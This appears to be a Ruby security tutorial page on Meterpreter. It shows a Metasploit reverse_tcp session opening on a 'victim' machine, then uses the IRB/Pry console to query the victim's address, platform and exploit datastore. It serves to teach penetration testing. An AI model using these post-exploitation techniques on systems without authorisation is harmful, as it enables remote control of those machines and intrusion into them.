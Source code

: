 # Meterpreter

From the official [wiki][1], The Meterpreter is an advanced payload that has been part of Metasploit since 2004. Originally written by Matt "skape" Miller, dozens of contributors have provided additional code, and the payload continues to be frequently updated as part of Metasploit development.

Meterpreter is a payload framework that provides APIs to interact with by writing scripts and plugins that increase its capabilities. You can find Meterpreter scripts in `metasploit-framework/scripts/meterpreter` those scripts that you use in post exploitation using **run** (e.g. getuid, getsystem, migrate, scraper, etc). Meterpreter source code is located in `metasploit-framework/lib/rex/post/meterpreter`.

Actually, you can't imagine the power of Meterpreter until you read its [wishlist and features][2] not just use it.


To get started, let's to get a Meterpreter shell on a victim machine to start practicing it inline then we can write some scripts 

Once you get the Meterpreter shell type `irb` to be dropped into ruby's IRB. Most of required modules will be loaded already. Then type `require 'irb/completion'` to support auto-completion for the IRB console, just like the follows

```
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the Meterpreter client

>> require 'irb/completion'
=> true
```

If you would like to use `Pry` instead of `irb` then type `pry` and make the console more readable. Personally, I'd prefer `pry` 

```ruby
meterpreter > pry
_pry_.prompt = proc { "-> " }
```

As you can see, you've been dropped to the IRB console with an instance variable called `client` of the running Meterpreter.

Try this as a start 
```ruby
print_good("Rubyfu!")
```
- To list all associated methods with `client` instance

This will return an array. 

```ruby
puts client.methods.sort
```
Let's to check some of the interesting methods there.

- Victim's IP address and port

```ruby
client.session_host
client.session_port
```

- Victim's computer information and plat form

```ruby
client.info
client.platform
```

Returns
```ruby
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

=> "x86/win32"
```

- Get the current exploit datastore

```ruby
client.exploit_datastore
# Or 
client.exploit.datastore
```

Returns a hash contains all the exploit information that result to this Meterpreter session 

```ruby
{"VERBOSE"=>false, "WfsDelay"=>0, "EnableContextEncoding"=>false, "DisablePayloadHandler"=>false, "ExitOnSession"=>true, "ListenerTimeout"=>0, "payload"=>"windows/meterpreter/reverse_tcp", "LPORT"=>4444, "ReverseConnectRetries"=>5, "ReverseAllowProxy"=>false, "ReverseListenerThreaded"=>false, "PayloadUUIDTracking"=>false, "EnableStageEncoding"=>false, "StageEncoderSaveRegisters"=>"", "StageEncodingFallback"=>true, "PrependMigrate"=>false, "EXITFUNC"=>"process", "AutoLoadStdapi"=>true, "AutoVerifySession"=>true, "AutoVerifySessionTimeout"=>30, "InitialAutoRunScript"=>"", "AutoRunScript"=>"", "AutoSystemInfo"=>true, "EnableUnicodeEncoding"=>false, "SessionRetryTotal"=>3600, "SessionRetryWait"=>10, "SessionExpirationTimeout"=>604800, "SessionCommunicationTimeout"=>300, "lhost"=>"192.168.0.18", "ReverseListenerBindPort"=>0, "TARGET"=>0}
```



---
[1]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter
[2]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist
[3]: https://dev.metasploit.com/documents/meterpreter.pdf